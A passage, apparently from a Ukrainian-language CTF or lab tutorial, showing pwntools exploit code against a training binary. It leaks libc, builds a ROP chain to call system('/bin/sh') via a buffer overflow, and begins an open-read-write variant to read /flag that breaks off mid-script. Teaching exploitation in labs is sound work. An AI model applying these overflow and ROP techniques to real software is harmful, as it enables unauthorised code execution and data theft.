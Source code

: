 ```python

    # Розраховуємо libc base
    libc.address = leaked_puts - libc.symbols['puts']
    log.success(f"Libc base: {hex(libc.address)}")

    # === ЕТАП 2: ROP CHAIN ===
    io.recvuntil(b'payload:')

    # Знаходимо що потрібно
    system_addr = libc.symbols['system']
    binsh_addr = next(libc.search(b'/bin/sh\x00'))
    log.info(f"system: {hex(system_addr)}")
    log.info(f"/bin/sh: {hex(binsh_addr)}")

    # Будуємо ROP chain
    rop = ROP(libc)
    rop.call(system_addr, [binsh_addr])

    # Payload
    payload = b'A' * OFFSET + rop.chain()
    log.info(f"Payload length: {len(payload)}")

    # Відправляємо
    io.sendline(payload)

    # Shell!
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Крок 5: Створіть ORW exploit (надійніший)

**Чому ORW?**
- `system("/bin/sh")` може не працювати через:
  - Seccomp фільтри (блокують `execve`)
  - Мережеві обмеження
  - Відсутність TTY

- **ORW (Open-Read-Write)** завжди працює:
  1. `open("/flag", O_RDONLY)`
  2. `read(fd, buffer, size)`
  3. `write(1, buffer, size)`

Файл `exploit_orw.py`:

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

elf = ELF('../build/stage08_ret2libc', checksec=False)
libc = ELF('./libc.so.6', checksec=False)

OFFSET = 72

def exploit_orw():
    io = process('../build/stage08_ret2libc')

    # === LEAK ===
    io.recvuntil(b'BOF:')
    io.sendline(b'LEAK')
```